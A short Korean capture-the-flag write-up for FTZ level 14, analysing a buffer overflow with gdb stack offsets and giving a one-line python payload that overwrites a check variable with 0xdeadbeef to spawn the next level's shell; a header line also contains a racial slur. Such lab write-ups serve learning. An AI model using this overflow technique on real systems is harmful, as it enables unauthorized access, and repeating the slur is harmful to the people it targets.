 ```yaml
---
title:  "[FTZ] level 15"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-18 18:39:31

---
```


# level 14

**level14 / what that nigga want?**

힌트

![image](https://user-images.githubusercontent.com/69203345/146631165-0286625e-073d-46f0-9a9b-863146d593bb.png)

버퍼 오버플로우, 포맷스트링 학습에 도움이 된다고 적혀있다.

정수형 crap  
정수형 check  
buf에 20바이트 크기 할당  
fgets로 문자열을 받는데 45바이트 만큼만 받음  
check 가 0xdeadbeef일때 if 문 실행  
level15의 pid, /bin/bash 실행

/tmp로 복사해서 gdb분석

![image](https://user-images.githubusercontent.com/69203345/146633619-f6a0afc4-80fa-4851-8104-d240af4d14bb.png)

"그 시간"

0x080484a1 <main+17>:    lea    eax, [ebp-56]  
buf에서 ebp까지의 거리 56

0x080484ad <main+29>:    cmp    DWORD PTR [ebp-16], 0xdeadbeef  
check 에서 ebp 까지의 거리 16

낮은주소

buf[20] [ebp-56]  
dummy[20]  
check[4] [ebp-16]  
crap[4]+dummy[8]   
sfp[4]  
ret[4]

높은주소

페이로드  
buf에서 check까지의 거리 + 변조할값
> (python -c 'print "A"*40+"\xef\xbe\xad\xde"'; cat) | ./attackme


![image](https://user-images.githubusercontent.com/69203345/146635091-6ad8ad0c-2996-4833-809b-bafeee270d13.png)
